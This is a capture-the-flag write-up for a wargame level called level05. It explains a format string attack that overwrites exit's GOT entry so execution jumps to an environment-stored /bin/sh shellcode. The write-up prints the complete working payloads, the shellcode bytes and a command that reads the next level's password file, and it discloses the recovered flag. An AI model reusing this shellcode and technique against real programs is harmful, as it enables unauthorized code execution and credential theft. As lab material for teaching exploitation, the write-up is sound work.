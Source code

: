 # level05

The executable reads 100 characters into a buffer and passes it to `printf` ; this means we can perform a format string attack.

With `exit` called at the end of `main`, we can't use `eip`, so we'll replace `exit`'s address in the GOT.

As for what we'll replace it with, there's no function to call and the `main` strips uppercase characters, so we can't use the buffer ; we'll use an `env` shellcode.

## **The exploit**

We need to figure out three things :

- The indexes of the printf buffer
- The address of our shellcode's the NOP sled, and the decimal values of that address broken down
- The target address, exit in the GOT

The first can be figured out using something like this :

```
python -c 'print("aaaa %p %p %p %p %p %p %p %p %p %p")' | ./level05
```

We find `0x61616161` at the `10th` spot ; we'll use `%10$hn` and onward.

The second can be gotten from GDB. We run and inspect :

```
env -i SHELLCODE=$(python -c 'print("\x90" * 512 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh")') gdb level05
```

We find our nopesled spans from `0xffffddae` to `0xffffdfae` ; we target `0xffffdeae`.

The third can be found out in GOT. We inspect it in Cutter and find `exit` at `0x080497e0`.

We're ready to format our exploit.

## **The command**

First, we need to break down our spoofed value.

We want to write `0xffffdeae`. This is too big, so we'll break it down into `0xffff` and `0xdeae` with two `%hn`.

`0xdeae` is `57006` - but we'll have already written `8` bytes, so we'll write `56998` extra bytes before our `%10$hn` (with a `%56998d` for example).

`0xffff` is `65535` - and we'll already have written `57006` bytes, so we'll write `8529` extra bytes before our `%11$hn`.

Now we just have to format that into a buffer :

```
python -c 'print("\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%56998d" + "%10$hn" + "%8529d" + "%11$hn")
```

## **The flag**

We string our exploit along with a command and our shellcode :

```
( python -c 'print("\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%56998d" + "%10$hn" + "%8529d" + "%11$hn")' ; sleep .1 ; echo "cat /home/users/level06/.pass" ) | env -i SHELLCODE=$(python -c 'print("\x90" * 512 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh")') ./level05
```

It works ! We get the flag for `level05` :

```
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```